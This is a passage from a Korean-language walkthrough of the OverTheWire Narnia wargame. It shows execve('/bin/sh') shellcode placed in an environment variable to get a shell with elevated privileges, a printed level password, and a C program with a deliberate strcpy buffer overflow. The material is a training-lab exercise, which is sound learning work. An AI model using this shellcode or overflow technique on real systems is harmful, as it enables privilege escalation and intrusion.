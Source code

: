 <br>

gdb로 까보면 EGG의 값을 함수로 호출함.  

여기에 system('/bin/sh')를 넣어주면 됨.  

쉘코드로 넣어주면 성공.

<br>

```
narnia1@narnia:/narnia$ export EGG=`python -c 'print 
"\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x31\xC9\x31\xD2\xB0\x0B\xCD\x80"'`
narnia1@narnia:/narnia$ env | grep EGG
Binary file (standard input) matches
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ id
uid=14001(narnia1) gid=14001(narnia1) euid=14002(narnia2) groups=14001(narnia1)
$ cat /etc/narnia_pass/narnia2
nairiepecu
```

<br>

```
password : nairiepecu
```

<br><br>

## Level 2 -> Level 3

<br>

```
ssh narnia2@narnia.labs.overthewire.org -p 2226
```

<br>

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
